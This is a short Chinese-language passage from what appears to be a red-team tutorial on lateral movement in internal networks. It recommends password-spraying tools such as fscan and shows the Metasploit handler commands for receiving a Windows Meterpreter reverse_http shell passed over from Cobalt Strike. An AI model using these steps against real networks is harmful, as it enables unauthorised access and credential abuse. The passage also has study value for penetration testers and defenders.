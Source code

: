 在利用`cs`进行横向移动时，发现如果`主机和口令`数量足够多的话，比较影响效率，可以使用相关口令扫描工具进行密码喷射如`超级弱口令扫描工具`、`fscan`等，然后进行集中利用。

下面使用`cs派生到msf`进行口令探测和利用：

首先cs建立msf监听器

[![](assets/1702372940-ac0b7b4203c0c98807f3cb43ecc802fc.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/12.png)

```plain
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 0.0.0.0
set lport 8888
run
```

[![](assets/1702372940-d5fc4489c4904052b042ef6009490d77.png)](https://raw.githubusercontent.com/xidaner/ImageShackDrive/main/img/RED/OS/%E5%86%85%E7%BD%91/CS-%E5%86%85%E7%BD%91%E6%A8%AA%E5%90%91/34.png)

选择之后，msf就会立马收到CS送的(派生)shell权限。
